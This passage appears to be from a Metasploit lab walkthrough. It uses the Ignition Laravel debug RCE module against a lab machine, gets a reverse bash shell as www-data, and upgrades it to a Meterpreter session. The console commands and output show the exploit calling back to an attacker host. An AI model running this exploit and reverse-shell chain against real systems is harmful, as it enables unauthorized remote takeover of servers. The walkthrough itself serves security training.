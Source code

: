         

Now that we’ve confirmed the vulnerability, let’s run the module to open a new session:
Metasploit Console Commands

           
msf6 exploit(multi/php/ignition_laravel_debug_rce) > run rhost=MACHINE_IP lhost=ATTACKER_IP HttpClientTimeout=20

[*] Started reverse TCP handler on 10.9.0.185:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 10.10.143.36:80
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (10.9.0.185:4444 -> 10.10.143.36:53986) at 2022-09-13 11:55:50 -0400
whoami

www-data

        

The opened shell will be a basic cmd/unix/reverse_bash shell. We can see this by running the background command and viewing the currently active sessions:
Metasploit Console Commands

           
background

Background session 1? [y/N]  y
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               10.9.0.185:4444 -> 10.10.143.36:53986 (10.10.143.36)

        

If you are currently in a session - you can run the background command to go back to the top-level Metasploit prompt. To upgrade the most recently opened session to Meterpreter, use the sessions -u -1 command. Metasploit will now show two sessions opened - one for the original shell session and another for the new Meterpreter session:
Metasploit Console Commands

           
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions -u -1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [-1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.0.185:4433
[*] Sending stage (989032 bytes) to 10.10.143.36
[*] Meterpreter session 2 opened (10.9.0.185:4433 -> 10.10.143.36:51132) at 2022-09-13 12:02:51 -0400
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions

Active sessions
===============
